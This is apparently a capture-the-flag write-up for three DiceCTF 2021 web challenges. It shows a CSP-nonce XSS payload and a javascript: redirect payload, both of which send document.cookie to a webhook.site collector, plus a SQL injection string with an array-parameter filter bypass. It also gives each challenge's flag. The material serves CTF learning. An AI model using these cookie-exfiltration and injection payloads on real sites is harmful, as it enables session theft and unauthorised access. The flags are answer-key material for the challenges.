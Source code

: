 **[web/Babier CSP](https://babier-csp.dicec.tf/)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Babier_CSP/index.js)  
In line 8, it sets
```python
const NONCE = crypto.randomBytes(16).toString('base64');
```
and in line 26
```python
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```
This code just run 1 time, so NONCE doesn't change after run server, view source, we have nonce
```
+ZSveZwTAUqC6Pt9p+rgUg==
```
Host a server using webhook.site, redirect and get the cookie
```javascript
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%2BZSveZwTAUqC6Pt9p%2BrgUg==%3Elocation.href=%22https://webhook.site/c23c6a4a-1ad6-420d-a488-033f8762e6ed/?data=%22%2Bdocument.cookie%3C/script%3E
```
We got the secret
```
secret=4b36b1b8e47f761263796b1defd80745
```
Go to https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/
```
dice{web_1s_a_stat3_0f_grac3_857720}
```
**[web/Missing Flavortext](https://missing-flavortext.dicec.tf)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Missing_Flavortext/index.js)  
In line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```sql
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```

**[web/Web Utils](https://web-utils.dicec.tf/)**  
We have source code [app.zip](https://lhtthao0430.github.io/web/dice/Web_Utils/app.zip)  
In [app/route/api.js]((https://lhtthao0430.github.io/web/dice/Web_Utils/app/route/api.js), line 39 we have spread oparator
```javascript
database.addData({ type: 'paste', ...req.body, uid });
```
[View source](https://web-utils.dicec.tf/view/iuwnxMEs), in line 11 we have
```javascript
if (type === 'link') return window.location = data;
```
We can change the req.body when createPaste to
```json
{"data":"some data","type":"link"}
```
It will understand that is a link and run window.location = data;  
Host a server using webhook.site, redirect and get the cookie
```json
{"data":"javascript:location.href='https://webhook.site/cf48efac-98a3-46d2-83af-141e6d39f133?data='+document.cookie","type":"link"}
```
Send the link to [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils) and get the flag
```
dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}
```